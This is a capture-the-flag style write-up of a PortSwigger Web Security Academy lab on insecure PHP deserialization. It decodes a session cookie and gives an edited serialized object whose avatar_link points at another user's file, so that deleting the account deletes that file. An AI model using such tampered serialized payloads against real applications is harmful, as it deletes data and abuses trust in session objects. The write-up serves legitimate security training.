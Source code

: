 ```yaml
---
title: 'Lab: Using application functionality to exploit insecure deserialization'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Using application functionality to exploit insecure deserialization
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object.
* Goal: To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

    You can log in to your own account using the following credentials: wiener:peter
    You also have access to a backup account: gregg:rosebud


## Recon
1. Login and Recon
When you'd like to delete an account, the package would be like as below:
![](https://i.imgur.com/StLYuw0.png)

    Session: `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzdHB4YXlzZzRtdzJ4MHo5c3h2ajE4N3dmZWEweGY5NSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d`
    Decoded String: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

    You can observe that it's not only delete your whole account but your avatar image. In addition, it provide the avatar link in decoded string: `users/wiener/avatar`

2. How about we modify the delete path?(<font color="FF0000">通靈</font>)

## Exp - Change the delete path
Exploit Payload:
```php!
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
:::spoiler Success Screenshot
![](https://i.imgur.com/JS21zkY.png)
:::